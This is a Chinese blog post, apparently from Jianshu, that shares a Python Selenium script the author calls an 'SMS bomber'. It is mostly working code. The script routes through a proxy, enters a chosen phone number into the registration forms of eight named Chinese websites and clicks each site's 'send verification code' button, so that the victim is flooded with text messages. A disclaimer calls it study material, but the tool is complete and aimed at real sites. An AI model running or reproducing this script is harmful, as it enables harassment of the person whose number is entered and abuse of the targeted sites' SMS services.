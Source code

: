 最近一直在琢磨写一个有点烦人的小爬虫，结果琢磨着，就花了一点点时间，写了这样一个“不友好”的，被许多人讨厌的爬虫😂：频繁收取短信验证码的‘坏’程序，姑且称为是生活中的一个"小恶作剧"吧。
对不起啦🙈，对那些老被我获取验证码的网站（🙈并非有意要增加你们维护网站的成本💦）。

**【备注】：此小程序仅用做技术探究学习，🚫不可用于侵犯他人利益**。

```
import time
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
# 设置代理
proxy = '220.191.64.149'
chrome_options = Options()
chrome_options.add_argument('--headless')
chrome_options.add_argument('--proxy-server = http://' + proxy)

broswer = webdriver.Chrome()
# 测试代理
# broswer.get('http://httpbin.org/get')

# 输入即将收到短信的手机号码
tel = 

# 定位,并输入手机号码
def tel_num_try(input_tel):
    print("【目前状态】：\n定位号码输入框,并输入手机号码...")
    try:
        print("使用id定位中...")
        bot1=broswer.find_element_by_id(input_tel)
        bot1.send_keys(tel)
    except:
        print("【id定位失败！】：\n使用class_name定位中...")
        bots2 = broswer.find_element(By.CLASS_NAME, input_tel)
        time.sleep(1)
        bots2.send_keys(tel)

# 定位并点击(方案1)
def tel_power_try_child1(btn):
    print("【当前状态】:定位元素，点击鼠标..")
    try:
        print("使用id定位中...")
        bot3 = broswer.find_element_by_id(btn)
        # bot1 = broswer.find_element_by_css_selector(btn)
        bot3.click()
        time.sleep(1)
    except Exception as e:
        print("【id定位失败！】\n 使用by_xpath定位中...")
        bots4 = broswer.find_element_by_xpath(btn)
        bots4.click()
        time.sleep(1)

# 定位并点击(方案2)
def tel_power_try_child2(btn):
    print("【当前状态】:定位元素，点击鼠标..")
    try:
        print("使用id定位中...")
        bot3 = broswer.find_element_by_id(btn)
        # bot1 = broswer.find_element_by_css_selector(btn)
        bot3.click()
        time.sleep(1)
    except:
        print("【id定位失败！】\n使用CSS_SELECTOR定位中...")
        bots4 = broswer.find_element(By.CSS_SELECTOR, btn)
        bots4.click()
        time.sleep(1)

# 调用两个点击方案
def tel_power_try(btn):
    try:
        tel_power_try_child1(btn)
    except:
        tel_power_try_child2(btn)

# 模板：两步获取验证码：手机号定位，验证码定位；
def tel_get_2(url,input_tel,btn):
    # 获取地址
    broswer.get(url)
    # 定位手机号输入
    tel_num_try(input_tel)
    # 定位"获取验证码"按钮
    tel_power_try(btn)

# 模板：三步获取验证码：into：登录定位，input_tel：手机号定位，btn：验证码定位；
def tel_get_3(url,into,input_tel,btn):
    # 获取地址
    broswer.get(url)
    tel_power_try(into)

    # 定位手机号输入
    tel_num_try(input_tel)

    # 定位"获取验证码"按钮
    tel_power_try(btn)

# 模板：三步获取验证码：登录定位，手机号定位，验证码定位；
def tel_get_k3(url,into,input_tel,btn):
    # 获取地址
    broswer.get(url)
    # 定位手机号输入
    tel_num_try(input_tel)
    tel_power_try(into)

    # 定位"获取验证码"按钮
    tel_power_try(btn)

# 模板：三步获取验证码：手机定位，滑动验证码检验（变速滑动）、验证码定位；（待续）

# 模板：三步获取验证码：手机定位，图像文字识别检验（涉及太广）、验证码定位；（待续）
```
【解释一下】：对验证码的获取，不同的网页有不同的方式，但总结下来，主要分为以下几种：
- 两步获取验证码：手机号定位，验证码定位；
- 三步获取验证码：into：登录注册界面定位；input_tel：定位手机号输入框；btn：验证码按钮定位；
- 三步获取验证码：手机定位；滑动验证码检验（变速滑动）；验证码按钮定位；
- 三步获取验证码：手机定位，图像文字识别检验、验证码定位；（此块内容涉及知识面太广，暂时不做考究）；

下面以苏宁易购为例，（界面做的蛮好看的，点个赞）讲述一下大致的短信获取的步骤。
- 第一步：在进入注册成为新用户之前，我们要先点击【同意并继续】的按钮，当然，关于如何寻找并定位这个元素，可以通过开发者工具，然后找到此元素的（class_name、id）等一系列的可以定位此元素的属性，然后使用selenium库模拟鼠标点击按钮即进入下一步； 

![以苏宁易购为例](https://upload-images.jianshu.io/upload_images/17476267-16dd0338701f78fa.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 第二步：
同第一步一样，通过开发者工具定位元素，使用selenium库模拟输入手机号码即可。
![定位手机号输入框](https://upload-images.jianshu.io/upload_images/17476267-6bc7e0a70ae72706.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 第三步：
同第二步一样，通过开发者工具定位元素，使用selenium库模拟点击【获取验证码】即可。
![第三步](https://upload-images.jianshu.io/upload_images/17476267-280ceeeff7c46c8a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

【后续 程序如下】：
```
# 短信轰炸机：感觉自己在犯法的边缘不断试探
class Spider_tel():
    def __init__(self):
        pass

    def TongCheng_com(self):
        url = "https://passport.58.com/reg/?path=https%3A//gz.58.com/&PGTID=0d100000-0000-33f9-63ec-9ca2641f5e25&ClickID=3"
        input_tel = 'phone'
        btn = '.getcode'
        print('【TongCheng_com】')
        tel_get_2(url,input_tel,btn)

    def Guazi_com(self):
        url = "https://www.guazi.com/qinhuangdao/dazhong/"
        into = 'js-login-new'
        input_tel = "phone-login-input"
        btn = '.get-code'
        print('【Guazi_com】')
        tel_get_3(url,into, input_tel, btn)

    def JianShu(self):
        url = "https://www.jianshu.com/sign_up"
        input_tel = 'user_mobile_number'
        btn = 'send_code'
        print('【JianShu】')
        tel_get_2(url,input_tel,btn)

    def SuNingYiGou(self):
        url = "https://reg.suning.com/person.do?myTargetUrl=https%3A%2F%2Fwww.suning.com%2F%3Fsafp%3Dd488778a.uzD.0.acf325284e"
        into = '.agree-btn'
        input_tel = "mobileAlias"
        btn = 'sendSmsCode'
        print('【SuNingYiGou】')
        tel_get_3(url,into, input_tel, btn)

    def FanKe(self):
        url = "https://www.fkw.com/reg.html"
        input_tel = 'acct'
        btn ='.button'
        print('【FanKe】')
        tel_get_2(url,input_tel,btn)

    def WangyiYun(self):
        # 难啃系数3颗星
        url = "https://id.163yun.com/register?referrer=https://dun.163.com/dashboard&h=yd&"
        into = ".yidun_intelli-text"
        input_tel = "m-input"
        btn = '.m-btn'
        print('【WangyiYun】')
        tel_get_k3(url,into, input_tel, btn)

    def BeiRui(self):
        url = 'https://console.oray.com/passport/register.html?fromurl=http%3A%2F%2Fdomain .oray.com%2F'
        into = '//*[@id="tips-protocol-win"]/div/div/div/div[2]/p/ input[1]'
        input_tel = "mobile"
        btn = "re-get"
        print('【BeiRui】')
        tel_get_3(url,into, input_tel, btn)

    def XueJia(self):
        url = "https://cn.student.com/au/adelaide?utm_source=baidu&utm_medium=cpc&utm_campaign=3_destination_au_pc&utm_content=3_adelaide_g_web_p&utm_term=adelaide%E7%A7%9F%E6%88%BF%E7%BD%91#sign-up"
        input_tel = 'input-field__input'
        btn ='.send-button__text'
        print('【XueJia】')
        tel_get_2(url,input_tel,btn)

    def run(self):
        pass
        # self.TongCheng_com()
        # self.Guazi_com()
        # self.JianShu()
        # self.FanKe()    #需要滑块验证(留待解决)
        # self.SuNingYiGou()
        # self.WangyiYun()
        # self.BeiRui()
        # self.XueJia()

s = Spider_tel()
s.run()
```

【结语】：作者仅出于学习爬虫的初衷，分享本文，如有问题，欢迎留言。

